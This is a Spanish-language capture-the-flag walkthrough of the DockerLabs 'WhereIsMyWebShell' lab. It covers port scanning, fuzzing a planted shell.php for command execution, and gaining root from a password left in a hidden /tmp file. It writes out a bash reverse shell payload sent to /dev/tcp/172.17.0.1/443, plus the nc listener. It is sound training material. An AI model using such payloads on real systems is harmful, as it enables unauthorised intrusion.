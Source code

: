 # [WhereIsMyWebShell](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh whereismywebshell.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)

`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b69f4026-cad2-4dfe-8a29-a6ea9f8ef44a)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/530c86d6-efde-4e04-8be6-468d27df3b57)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Dicha web tiene la siguiente apariencia:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/edb8225a-071e-47d2-ba92-8cb06fa05d83)

<br>

Si echamos un vistazo por la página vemos abajo del todo nos da una pequeña pista a tener en cuenta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Inspeccionamos el Código Fuente con `CTRL + U` pero no encontramos nada interesante, por lo que pasamos a hacer fuzzing con este comando <br>`gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`<br>
Nos encuentra los siguientes archivos:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e315816c-9bc5-448d-b864-077f91631082)

<br>

Vemos un archivo un poco extraño llamado `shell.php`, si nos dirigimos a la página web no nos aparece nada. Por lo que probaremos a hacerle fuzzing al parámetro de este archivo a ver si tiene alguno el cual nos permita ejecutar comando remotamente usaremos la herramienta `wfuzz` de la siguiente forma: `wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id --hc 404 --hl 0`, nos encuentra lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6fc866f7-331b-4f59-bb03-eb54c4ad3d35)

<br>

Por lo que nos vamos a la web y en la URL introducimos `http://172.17.0.2/shell.php?parameter=id`, comprobamos que estamos ante una RCE.
<br>

Sabiendo que podemos ejecutar comandos remotamente nos enviaremos una [revshell](https://www.revshells.com/). 

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, le pasamos de valor a `parameter` lo siguiente `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, por lo tanto la URL quedaría así `172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, vemos que la página web se queda cargando y recibiremos la reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/28d5cfd0-1400-48a6-8410-e27c0278322d)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos accedido a la máquina como **www-data**:
<br>

 > El (;) concatena dos comandos.

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e3d0974c-19ab-4f5a-838e-4800b942e188)

<br>

El primer lugar, haremos un Tratamiento de la TTY ejecutando en orden las siguientes infracciones: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95fb08c9-21e9-4b8a-ac90-a167c34be2dc)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d1835fdd-3a85-4a79-a1af-46fb2da486b5)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si recordamos en la página web nos dió la siguiente pista:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Por lo que nos dirigimos al directorio `/tmp`, y si hacemos `ls` no vemos nada pero si hacemos `ls -la` observamos un archivo oculto `.secret.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0b5ab0-b49b-45c1-87d9-47f9e41f38fe)

<br>

El contenido de este archivo es el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9ad4268b-00fb-4d08-9580-7027c5f53328)

<br>

Por lo que probamos a autenticarnos como **root** haciendo `su root`, ponemos de contraseña `contraseñaderoot123`, y listo ya somos **root!**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/645487d7-bf3d-457c-90a8-b447b682de84)
